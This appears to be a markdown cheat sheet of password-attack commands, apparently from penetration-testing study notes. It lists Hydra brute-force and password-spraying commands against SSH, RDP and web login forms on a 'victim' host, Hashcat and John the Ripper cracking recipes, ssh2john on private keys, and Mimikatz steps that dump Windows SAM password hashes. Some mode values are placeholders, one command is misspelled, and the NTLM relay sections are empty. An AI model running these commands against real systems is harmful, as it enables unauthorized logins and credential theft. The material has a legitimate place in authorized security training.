 # Password attacks

## Hydra

### Wordlist

```
hydra -l user -P wordlist.txt -s PortVictim ssh://IpVictim
hydra -l user -P wordlist.txt rdp://IpVictim # default is 3389
```

### Spraying

```
hydra -L userlist.txt -p "hackedpassword" rdp://IpVictim
```

### Http

```
hydra -P wordlist.txt http-post-form $IpVictim "/baseurl:user_form_field=admin:password_form_field=^PASS^:error message when password is wrong"
hydra -l user -P wordlist.txt http-get $IpVictim
```

## Hashcat

```
hashcat wordlist.txt -j 'd' wordlist.txt --stdout > newwordlist.txt
hastcat wordlist.txt -r rulelist.txt --stdout
hashcat -m 0 tocrack.txt -k 'u' newwordlist.txt --force
hashcat -m passman.mode passman.hash rockyou.txt -r rockyou-30000.rule --force
```

## Powershell

Find extensions:
```
Get-ChildItem -Path C:\ -Include *.someextension -File -Recurse -ErrorAction SilentlyContinue
```

## Ssh passphrase

```
ssh2john id_rsa > ssh.hash
hashcat -h | grep -i "ssh"
hashcat -m ssh.hashcat.mode ssh.hash ssh.passwords -r ssh.rule --force
cp ssh.rule /etc/john/otherssh.rule
vim /etc/john/john.config
john --wordlist=ssh.passwords --rules=sshJohnRules ssh.hash
```

## NTLM

On Windows:
```
Get-LocalUser
.\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```
Back on Kali:
```
hashcat -h | grep -i ntlm
hashcat -m ntlm.mode user.hash /u/s/w/rockyou.txt -r /u/s/h/r/best64.rule --force
```

## Pass NTLM


## Net-NTLMv2


## Relay Net-NTLMv2



```
